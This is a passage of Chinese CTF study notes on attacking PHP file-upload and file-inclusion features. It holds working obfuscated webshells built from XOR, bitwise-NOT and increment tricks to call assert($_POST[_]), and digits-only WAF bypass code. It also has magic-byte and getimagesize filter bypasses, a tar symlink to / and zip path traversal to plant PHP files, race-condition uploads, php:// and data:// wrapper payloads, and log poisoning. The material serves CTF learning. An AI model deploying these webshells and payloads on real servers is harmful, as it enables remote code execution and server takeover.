当使用CGI／FastCGI 来解析php时，php会优先搜索目录下所有的.ini文件，并应用其中的配置。类似于apache的.htaccess，但语法与.htacces不同，语法与php.ini一致。因nginx实际上只是起到转发的作用，实际解析一般为php-fpm或fastcgi来解析，所以在.user.ini中写如auto_prepend_file=test.jpg，之后上传.user.ini与test.jpg，过一段时间等待.user.ini被加载后，会导致每个php文件解析之前先将test.jpg当作php解析。

#### PHP

（1）00截断

php 版本为5.2.x，在上传文件时在文件后名后追加\0即可让上传的文件，最终变为以.php结尾的文件

（2）fopen特性

```php
<?php
$filename='shell.php/.';
$content="<?php phpinfo();";
$f = fopen($filename, 'w');
    fwrite($f, $content);
    fclose($f);
?> //会在当前目录生成shell.php
```

### 文件内容检查

（1）绕过`<?php`,`<?=`

https://www.php.net/manual/zh/language.basic-syntax.phpmode.php


其中第2种在php7种不可以使用，在php5中可以使用

（2）绕过`[a-zA-Z0-9]`

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html

如何编写一个不使用数字和字母的webshell

```php
<?php
if(!preg_match('/[a-z0-9]/is',$_GET['shell'])) {
  eval($_GET['shell']);
}
```

方法一:这是最简单、最容易想到的方法。在PHP中，两个字符串执行异或操作以后，得到的还是一个字符串。所以，我们想得到a-z中某个字母，就找到某两个非字母、数字的字符，他们的异或结果是这个字母即可。

得到如下的结果（因为其中存在很多不可打印字符，所以我用url编码表示了）：

```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```


方法二：和方法一有异曲同工之妙，唯一差异就是，方法一使用的是位运算里的“异或”，方法二使用的是位运算里的“取反”。

方法二利用的是UTF-8编码的某个汉字，并将其中某个字符取出来，比如'和'{2}的结果是"\x8c"，其取反即为字母s：


利用这个特性，我找了一篇文章（ https://www.leavesongs.com/THINK/answer.html ），自动选择了其中一些汉字，生成如下答案：

```php
<?php
$__=('>'>'<')+('>'>'<');
$_=$__/$__;

$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});

$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});

$_=$$_____;
$____($_[$__]);
```


方法三:http://php.net/manual/zh/language.operators.increment.php


也就是说，'a'++ => 'b'，'b'++ => 'c'... 所以，我们只要能拿到一个变量，其值为a，通过自增操作即可获得a-z中所有字符。

那么，如何拿到一个值为字符串'a'的变量呢？

巧了，数组（Array）的第一个字母就是大写A，而且第4个字母是小写a。也就是说，我们可以同时拿到小写和大写A，等于我们就可以拿到a-z和A-Z的所有字母。

在PHP中，如果强制连接数组和字符串的话，数组将被转换成字符串，其值为Array：


再取这个字符串的第一个字母，就可以获得'A'了。

利用这个技巧，我编写了如下webshell（因为PHP函数是大小写不敏感的，所以我们最终执行的是`ASSERT($_POST[_])`，无需获取小写a）：

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```


（3）仅数字+符号

waf代码如下：

```php
<?php 
error_reporting(0); 
if(!isset($_GET['num'])){ 
    show_source(__FILE__); 
}else{ 
    $str = $_GET['num']; 
    $blacklist = ['[a-z]', '[\x7f-\xff]', '\s',"'", '"', '`', '\[', '\]','\$', '_', '\\\\','\^', ',']; 
    foreach ($blacklist as $blackitem) { 
        if (preg_match('/' . $blackitem . '/im', $str)) { 
            die("what are you want to do?"); 
        } 
    } 
    @eval('echo '.$str.';'); 
} 
?> 
```

使用如下方法绕过

```php
<?php 
$a ='';
$a .= ((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(3)){1}));
$a .= ((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(9)){1}));
$a .= ((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(3)){1}));
$a .= ((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(4)){1}));
$a .= (((10000000000000000000).(1)){3});
$a .= ((((10000000000000000000).(1)){3})|(((-1).(1)){0}));
echo $a; //systEm
?>

<?php 
$a ='';
$a .= (((10000000000000000000).(1)){3}); // E
$a .= (((((10000000000000000000).(1)){3})|(((1.1).(1)){1}))&((~(((1).(7)){1})|(((1).(0)){1}))|(((1).(6)){1}))); //n
$a .= ((((10000000000000000000).(1)){3})&((~(((1).(7)){1})|(((1).(0)){1}))|(((1).(6)){1}))); //D
echo $a; //EnD
?>

<?php // getallheaders
$a ='';
$a .= ((((10000000000000000000).(1)){3})|(((1.1).(1)){1})&((~(((1).(8)){1})|(((1).(7)){1})))); // g
$a .= (((10000000000000000000).(1)){3}); // E
$a .= ((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(4)){1})); //T
$a .= ((((10000000000000000000).(1)){3})&((~(((1).(7)){1})|(((1).(0)){1}))|(((1).(1)){1}))); //a
$a .= (((((10000000000000000000).(1)){3})|(((1.1).(1)){1}))&((~(((1).(7)){1})|(((1).(0)){1}))|(((1).(4)){1}))); // l
$a .= (((((10000000000000000000).(1)){3})|(((1.1).(1)){1}))&((~(((1).(7)){1})|(((1).(0)){1}))|(((1).(4)){1}))); // l
$a .= (((((10000000000000000000).(1)){3})|(((1.1).(1)){1}))&((~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1}))); // h
$a .= (((10000000000000000000).(1)){3}); // E
$a .= ((((10000000000000000000).(1)){3})&((~(((1).(7)){1})|(((1).(0)){1}))|(((1).(1)){1}))); //a
$a .= ((((10000000000000000000).(1)){3})&((~(((1).(7)){1})|(((1).(0)){1}))|(((1).(4)){1}))); //D
$a .= (((10000000000000000000).(1)){3}); // E
$a .= ((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(2)){1})); // r
$a .= ((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(3)){1})); // s
echo $a;
?>
```

https://waituck.sg/web/rctf2020/php/2020/06/10/rctf-2020-calc-writeup.html
https://blog.rois.io/en/2020/rctf-2020-official-writeup-2/#Calc

（4）绕过`;`(分号)

```php
<?=phpinfo()?>
```

（5）exif_imagetype()

该函数为获取图片的类型，常用于检测上传文件的类型

1. 可以使用在文件头添加魔术字节GIF89a即可绕过
2. 使用copy命令将木马放在一个正常文件之后

（6）get_imagesize()

该函数为获取图片的长宽，常用于检测上传文件的类型

可以在文件之前添加

```
#define width 1337                          
#define height 1337
```

即可绕过

（7）二次渲染

https://github.com/hxer/imagecreatefrom-/tree/master/
https://www.freebuf.com/articles/web/54086.html
http://www.vuln.cn/6411

### 多文件上传

当服务器支持多文件上传，但只对上传的第一个进行过滤时，可以一次上传多个文件进行绕过

### 文件上传解压

（1）tar压缩包

linux环境下

```
ln -s / 1.jpg 会在当前目录下生成一个名为1.jpg的软链接
tar cf 1.tar 1.jpg
上传到服务器，访问1.jpg，就可以在服务器中漫游了
也可以利用这个办法绕过php_flag engine off
```

例子：https://250.ac.cn/2019/11/09/2019-湖湘杯-web部分-WriteUp/#预期解

（2）zip压缩包

如果服务器对上传的zip文件直接解压的话，就可以构筑这样一个文件来绕过

环境：/var/www/html/upload目录不解析php文件，解压文件默认在upload下

```
新建1234.php，内容任意
将1234.php压缩为1234.zip文件
使用hxd或者010editor等16进制编辑器编辑1234.zip文件，将所有字符串1234.php替换为../1.php（../1共四位所以使用1234为文件名，可根据需求修改），保存。
将修改后的1234.zip上传，经过服务器解压，会在/var/www/html下生成一个1.php
```

### 条件竞争

在一些上传场景中，上传的文件上传成功后会被立马删除，导致无法访问上传的文件。所以从上传成功到被删除的这段时间大概（几百ms）存在一个空档，我们利用这段空档可以访问到上传的文件。但是手工操作肯定是来不及，我们写脚本操作也来不及。所以可以通过不断的上传文件，并不断的访问到达目的。

### 其他情况

（1）rce

```
imagick rce:CVE-2016–3714
```

（2）file_put_contents

```
file_put_contents($filename,$content);
```

## 文件包含

### 路径穿越

```
upload/../../../../../tmp/shell.php
```

### 伪协议绕过

```
ftp://shell.php
file:///tmp/shell.php
http://xxxx/shell.php
\\smbserver\shell.php        //unc路径
phar://xxxx/x.zip/shell.php   //需将shell.php打包为x.zip上传
zip://xxxx/x.zip#shell.php    //需将shell.php打包为x.zip上传
php://filter/read=convert.base64-encode/resource=shell.php
compress.bzip2://shell.php
compress.zlib://shell.jpg
php://input    [POST DATA] <?php phpinfo()?>
data://text/plain,<?php phpinfo()?>                 //也可以data:text/plain,<?php phpinfo()?>
data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4= 
php://filter/read=convert.base64-encode/resource=phar://phar.phar
php://filter/convert.base64-decode|convert.base64-decode/resource=shell.php
php://filter/%72ead=convert.base64-encode/resource=shell.%70hp
```

### 包含Session

参考`php_myadmin4.8.1`文件包含漏洞`CVE-2018-12613`

https://github.com/vulhub/vulhub/tree/master/phpmyadmin/CVE-2018-12613

### 包含日志

（1）Apache2

以ubuntu下apache2为例，先请求`/<?php phpinfo();?>`，然后包含`/var/log/apache2/access.log`即可

（2）mail

`/var/log/mail.log`

或者可以参考安恒杯6月赛web2 easypentest https://blog.szfszf.top/tech/%E5%AE%89%E6%81%92%E6%9D%AF6%E6%9C%88%E8%B5%9B-easypentest/

## 参考

* [CTF考点总结-sql注入](https://www.cnblogs.com/kagari/p/12635654.html)
* [CTF考点总结-文件上传/文件包含](https://www.cnblogs.com/kagari/p/12638765.html)
* [php伪协议总结](https://www.cnblogs.com/zzjdbk/p/13030717.html)